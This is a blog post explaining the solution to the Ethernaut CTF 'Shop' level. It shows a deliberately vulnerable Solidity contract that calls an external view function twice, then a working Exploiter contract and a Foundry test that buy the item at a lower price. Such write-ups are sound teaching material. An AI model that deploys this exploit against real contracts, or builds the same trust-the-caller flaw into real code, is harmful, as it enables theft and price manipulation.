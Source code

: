 ```yaml
---
title: 'Ethernaut Challenge #20 Solution — Shop'
excerpt: This is Part 20 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.
coverImage:
  url: '/assets/blog/ethernaut/shop.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-08-10T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/shop.svg'
---
```


This is Part 20 of the ["Let’s play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

## Challenge #20: Shop

> Сan you get the item from the shop for less than the price asked?
>
> Things that might help:
>
> - `Shop` expects to be used from a `Buyer`
> - Understanding restrictions of view functions
>
> Level author(s): [Ivan Zakharov](https://github.com/34x4p08)

The goal of this challenge is to find a way to buy the item from the `Shop` contract for a price lower compared to the one for which the item is sold.

## Study the contracts

Let's review the contract that is fairly small in code length

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

As we can see, we have a `price` inside the contract that represent the amount of `wei` that a `Buyer` must pay to purchase the item.

The item can also be purchased only if it **has not been sold yet**. This property is handled by the state variable `isSold` that is initialized to `false` and then changed to `true` in the `buy` function.

Let's see in detail the `buy` function

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```

This is the main function of the contract. It cast the `msg.sender` to `Buyer` and by doing that it expect that the sender of the transaction is a **Contract** that implements the `price` function defined in the `Buyer` interface.

The `function price() external view returns (uint256);` even if it's not explicit in the Challenge description should return the price that the **buyer** is willing to pay to purchase the shop's item.

The contract check if the Buyer's price (what the buyer is willing to pay) is greater than the Shop's price and check that the item has not been sold yet. If this requirement pass, it will update `isSold` to `true` and update the `price`'s value to `_buyer.price();` that in **theory** should be the same one returned just an instruction before, **right???**

This is not a real case scenario, it's just a challenge to explain a concept. There's no fund transfer involved in the transaction.

The key concept here is: you should **never** **blindly trust** what you expect **an external actor** will do, even if you define a specific interface with a logic that the external actor should trust.

**Never ever trust blindly things that are not under your control.**

Because **we** are the buyer, we can simply implement the `price` function like this

```solidity
function price() external view returns (uint256) {
    return victim.isSold() ? 1 : 1000;
}
```

Because `price` is a `view` function we cannot have an internal state variable to change the `uint256` returned by the function, but we are enabled to make external call functions that are marked as `view` or `pure`.

Just as a reminder from the Solidity Documentation about [what `view` function can and can't do](https://docs.soliditylang.org/en/latest/contracts.html#view-functions):

> A `view` function cannot modify the state of the contract. In particular it cannot
>
> - Write to state variables.
> - Emit events.
> - Create other contracts.
> - Use selfdestruct.
> - Send Ether via calls.
> - Call any function not marked view or pure.
> - Use low-level calls.
> - Use inline assembly that contains certain opcodes.

## Solution code

First, we need to deploy a Contract that inherit and implements the `Buyer` interface required by the `Shop`

```solidity
contract Exploiter {
    // victim reference
    Shop private victim;

    // trigger the exploit
    function buy(Shop _victim) external {
        victim = _victim;
        victim.buy();
    }

    // if the item has not been sold we return what the Shop's want to see
    // but after that (by knowing the Shop logic) we ruturn what we are really
    // going to pay to purchase the item (much much lower compared to the real item's price)
    function price() external view returns (uint256) {
        return victim.isSold() ? 1 : 1000;
    }
}
```

Now we can deploy the exploiter contract and run the test to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the exploiter contract
    Exploiter exploiter = new Exploiter();

    // trigger the exploit and buy the item
    exploiter.buy(level);

    // assert that we have solved the challenge
    assertEq(level.isSold(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Shop.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Shop.t.sol)

## Further reading

- [Solidity Docs: view functions](https://docs.soliditylang.org/en/latest/contracts.html#view-functions)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
